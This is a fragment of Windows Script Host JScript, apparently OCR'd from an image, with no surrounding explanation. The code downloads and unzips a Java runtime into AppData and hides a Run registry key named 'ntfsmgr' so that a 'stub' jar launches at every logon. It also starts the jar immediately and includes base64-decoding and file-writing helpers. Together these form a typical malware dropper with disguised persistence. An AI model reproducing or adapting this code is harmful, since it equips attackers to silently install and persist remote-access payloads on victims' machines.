 ```javascript
                xHttp.send();
                bStrm.Type = 1;
                bStrm.open();
                bStrm.write(xHttp.responseBody);
                bStrm.savetofile(appdatadir + "\\jre.zip", 2);
                break;
            } catch (err) {
                WScript.Sleep(5000);
            }
        } while (true);
        UnZip(appdatadir + "\\jre.zip", appdatadir + "\\jre7");
        //wshShell.RegWrite("HKLM\\SOFTWARE\\JavaSoft\\Java Runtime Environment\\CurrentVersion", "1.8", "REG_SZ");
        //wshShell.RegWrite("HKLM\\SOFTWARE\\JavaSoft\\Java Runtime Environment\\1.8\\JavaHome", appdatadir + "\\jre7", "REG_SZ");
        wshShell.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\ntfsmgr", "\"" + appdatadir + "\\jre7\\bin\\javaw.exe\" -jar \"" + stubpath + "\"", "REG_SZ");
        wshShell.run("\"" + appdatadir + "\\jre7\\bin\\javaw.exe\" -jar \"" + stubpath + "\"");
    }

    function decodeBase64(base64) {
        var DM = WScript.CreateObject("Microsoft.XMLDOM");
        var EL = DM.createElement("tmp");
        EL.dataType = "bin.base64";
        EL.text = base64;
        return EL.nodeTypedValue;
    }

    function writeBytes(file, bytes) {
        var binaryStream = WScript.CreateObject("ADODB.Stream");
        binaryStream.Type = 1;
        binaryStream.Open();
        binaryStream.Write(bytes);
        binaryStream.SaveToFile(file, 2);
    }

    function UnZip(zipfile, ExtractTo) {
        if (fso.GetExtensionName(zipfile) == "zip") {
            if (!fso.FolderExists(ExtractTo)) {
                fso.CreateFolder(ExtractTo);
            }
            var objShell = WScript.CreateObject("Shell.Application");
            var destination = objShell.NameSpace(ExtractTo);
            var zip_content = objShell.NameSpace(zipfile).Items();   
            for (i = 0; i < zip_content.Count; i++) {
                if (fso.FileExists(fso.Buildpath(ExtractTo, zip_content.item(i).name) + "." + fso.getExtensionName(zip_content.item(i).path))) {
                    fso.DeleteFile(fso.Buildpath(ExtractTo, zip_content.item(i).name) + "." + fso.getExtensionName(zip_content.item(i).path));
                }
                destination.copyHere(zip_content.item(i), 20);
            }
        }
    }


 ```
